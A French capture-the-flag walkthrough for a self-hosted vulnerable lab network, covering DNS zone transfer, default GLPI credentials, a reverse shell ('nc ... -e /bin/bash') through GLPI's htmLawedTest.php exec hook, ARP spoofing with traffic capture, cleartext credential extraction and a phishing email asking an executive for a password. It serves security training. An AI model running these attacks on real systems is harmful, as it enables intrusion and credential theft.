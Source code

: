 ## TAGS : #WEB #NETWORK 

Installation :
```
git clone https://github.com/doubledoze/InfraVuln_01.git
cd InfraVuln_01-main
sudo bash start.sh
```
Connexion au lab ( sur un autre terminal ) :
```
ssh root@localhost -p 2222
Password = hacker
```

### 🟡🔰Enumération🔰🟡 

On commence par énumérer les hôtes présents dans le réseau à l'aide de nmap en utilisant la commande : 
``nmap -sn 192.168.10.0/24``

**<u>Résumé NMAP : </u>**

| Serveur/Hôte | IP Address | Open Ports |
| ---- | ---- | ---- |
| WEB | 192.168.10.3 | 80/tcp open http Apache httpd 2.4.54 ((Debian)) |
| CLIENT ubuntu | 192.168.10.4 |  |
| DNS | 192.168.10.6 | 53/tcp open domain ISC BIND 9.16.1 (Ubuntu Linux) |
| Mail | 192.168.10.20 | 25/tcp open smtp Postfix smtpd,<br>80/tcp open http Apache httpd 2.4.56 ((Debian)),<br>110/tcp open pop3 Dovecot pop3d,<br>143/tcp open imap Dovecot imapd, <br>465/tcp open smtp Postfix smtpd, <br>587/tcp open smtp Postfix smtpd |
| GLPI | 192.168.10.30 | 80/tcp open http Apache httpd 2.4.54 ((Debian)) |
| KALI (hacker) | 192.168.10.2 |  |

## 🔵🔰FLAG 1 : DNS🔰🔵

mail.bigbusiness.loc
hacker.bigbusiness.loc 

**Transfert de zone :**
zone = bigbusiness.loc
donc └─> `dig 192.168.10.6 bigbusiness.loc AXFR`
![[Pasted image 20240202154449.png]]
Flag trouvé : lab{d1sc0v3r3d_DNS_L3ak}

## 🔵🔰GLPI🔰🔵

Vérifications simple et rapide : 
* Regarder le readme ( pour la version )
* Test des identifiants par défaut : glpi/glpi 

Dans notre cas : 
* glpi/glpi fonctionne 
* Version : 9.5.6
On recherche sur internet des CVE qui fonctionnent pour cette version
Vulnérabilité : 
	https://glpi-project.org/security-update-10-0-3-and-9-5-9/
Exploitation : 
	http://192.168.10.30/vendor/htmlawed/htmlawed/htmLawedTest.php
	--> settings -> hook -> exec 
	--> dans la textarea : mettre la commande a éxécuter

**Installer netcat** : `
```
apt install netcat-traditional
```

**Sur la Machine hôte** : `nc -lvnp 5454`
![[Pasted image 20240202161518.png]]
Sur glpi, se rendre sur la page : http://192.168.10.30/vendor/htmlawed/htmlawed/htmLawedTest.php

htmlawed : 
	nc 192.168.10.2 5454 -e /bin/bash
	settings -> host -> "exec"
![[Pasted image 20240202161716.png]]
![[Pasted image 20240202161729.png]]

Shell semi-interactif lancé, pour trouver le flag : on utilise cd,ls,cat... 
![[Pasted image 20240202161751.png]]
***flag{Glp1_H4ck3r}***

## 🔵🔰Man In The Middle ( MiTM ) 🔰🔵 
### 🟡🔰Lancement de l'arp spoofing : 🔰🟡 
Afin d'intercepter les communications entre la machine "active" sur le réseau, on va faire de l'arp spoofing ce qui va nous permettre de se faire passer pour une autre machine et de recevoir des paquets que nous ne sommes pas censé recevoir en temps normal. Afin de réaliser cette attaque, on utilise l'outil **dsniff** : 
**Serveur MAIL :**
```
arpspoof -i eth0 -t 192.168.10.4 192.168.10.20 
arpspoof -i eth0 -t 192.168.10.20 192.168.10.4
```

**Serveur WEB:**
```
arpspoof -i eth0 -t 192.168.10.4 192.168.10.3 
arpspoof -i eth0 -t 192.168.10.3 192.168.10.4
```

On récupère les données interceptées dans un fichier pcap pour l'analyser plus tard.
En temps normal, on utiliserai wireshark directement, mais ici on a uniquement un acces en ligne de commande, on utilise donc tcpdump et on redirige le tout dans un fichier .pcap
`tcpdump -w spoof.pcap`
On attend un peu pour avoir des données à analyser


**Transfert du pcap sur la machine hôte :**
Afin d'utiliser wireshark pour analyser le traffic, on doit d'abord passer sur un environnement graphique, donc sur la machine hôte, pour ceci, on va utiliser netcat.

Sur la machine hôte : 
`nc -lvnp 4545 > spoof.pcap`
	 
Sur la machine kali :
`nc 192.168.202.59 4545 < spoof.pcap `

On peut maintenant lancer le fichier sur wireshark :  
`sudo wireshark spoof.pcap`



![[Pasted image 20240209092259.png]]
![[Pasted image 20240209133436.png]]

En analysant le fichier pcap, on trouve plusieurs éléments intéressants : 
 **MAIL : Filtrer sur SMTP** 
	`comptabilite@bigbusiness.loc:B1gBus1n3ss`
![[Pasted image 20240209110523.png]]
Se connecter avec ce compte sur 192.168.10.20 : 
![[Pasted image 20240209134012.png]]
![[Pasted image 20240209112327.png]]
On envoi un message à direction@bigbusiness.loc en se faisant passer pour un employé demandant gentillement le mot de passe et on recupère le flag, et on voit que le nom du propriétaire de la boite compromise est "Bertrand"

![[Pasted image 20240209112606.png]]

**Serveur WEB : Filtrer sur HTTP**
	`pc-01:YeOa8d03jxP`
![[Pasted image 20240209110724.png]]

Connexion au site avec les identifiants trouvés : http://192.168.10.3
![[Pasted image 20240209135315.png]]
![[Pasted image 20240209135247.png]]
Impossible car on est pas dans le bon réseau, on le fait donc depuis la kali hacker en utilisant cURL : 
`curl -d "username=pc-01&password=YeOa8d03jxP" http://192.168.10.3/check_login.php`
![[Pasted image 20240209114554.png]]

## 🔵🔰Conclusion🔰🔵 
##### 🟡🔰Flags trouvés🔰🟡   
```
	lab{d1sc0v3r3d_DNS_L3ak}
	flag{Glp1_H4ck3r}
	lab{H4ck3d_W3b_S3rv1ce}
	flag{Im_A_H4ck3r}
```
##### 🟡🔰Identifiants trouvés🔰🟡 

```
	glpi:glpi
	direction@bigbusiness.loc:N0P4ss84wd
	comptabilite@bigbusiness.loc:B1gBus1n3ss
	pc-01:YeOa8d03jxP
```









